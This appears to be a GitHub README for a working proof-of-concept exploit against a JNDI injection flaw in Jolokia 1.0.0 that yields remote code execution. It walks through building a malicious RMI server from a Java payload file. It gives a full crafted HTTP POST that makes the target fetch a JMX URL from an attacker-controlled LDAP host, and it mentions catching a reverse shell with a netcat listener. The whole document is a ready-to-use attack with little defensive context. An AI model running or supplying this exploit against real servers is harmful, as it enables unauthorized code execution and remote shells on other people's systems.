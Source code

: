 # Jolokia 1.0.0 JNDI Injection

Working POC code for Jolokia RCE

## Steps to Reproduce:

1. Clone the current Repository.
2. Edit the java file `src/main/java/ExportObject.java` and enter the command that you wish to execute remotely.
3. Execute `mvn clean install` to build the jar file.
4. Execute `java -jar RMIServer-0.1.0.jar http://<server_ip>:port_1/#ExportObject port_2
` to create a malicious server. 
5. Send the following request to your target server.

```
POST /jolokia/ HTTP/1.1 
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55 
Connection: close 
Content-Type: application/x-www-form-urlencoded 
 
{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
        "url" : "service:jmx:rmi:///jndi/ldap://<server_ip>:port_2/jmxrmi"
    } 
}
```

This will execute the command that you have specified in the `ExportObject.java` file

Note that if you are trying to create a Remote shell, then you will have to open a Netcat Listner on your server at `port_r` specified in `ExportObject.java` file


Reference:
https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html

